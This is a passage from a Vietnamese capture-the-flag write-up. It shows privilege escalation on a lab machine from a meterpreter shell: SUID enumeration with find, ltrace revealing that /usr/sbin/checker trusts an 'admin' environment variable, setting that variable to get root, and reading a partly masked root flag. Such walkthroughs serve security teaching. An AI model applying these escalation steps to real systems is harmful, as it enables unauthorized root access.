 ```
meterpreter> shell
www-data@blog:/$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
<SNIP>
```
Chạy nó sẽ cho kết quả rằng chúng ta “Không phải là admin”:
```
www-data@blog:/$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```
### ltrace
ltrace là công cụ dùng để theo dõi và hiển thị các lệnh gọi thư viện (library calls) mà một chương trình thực thi. Nó giúp bạn hiểu được các tương tác giữa chương trình và các thư viện mà chương trình đó sử dụng

Chạy nó với `ltrace` cho thấy rằng tệp thực thi đang kiểm tra biến môi trường (admin) để xác định xem chúng ta có phải là admin hay không:
```
www-data@blog:/$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```
Chúng ta sẽ tạo một biến môi trường admin và đặt nó ở mức 1:
```
www-data@blog:/$ export admin=1
export admin=1
www-data@blog:/$ /usr/sbin/checker
/usr/sbin/checker
root@blog:/#
```
## Post-Exploit
```
root@blog:/root# cat root.txt
cat root.txt
9a0b2b618bef9bfa7ac28c13****
```
# User flag
## Exploit
### find
```
root@blog:/root# find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```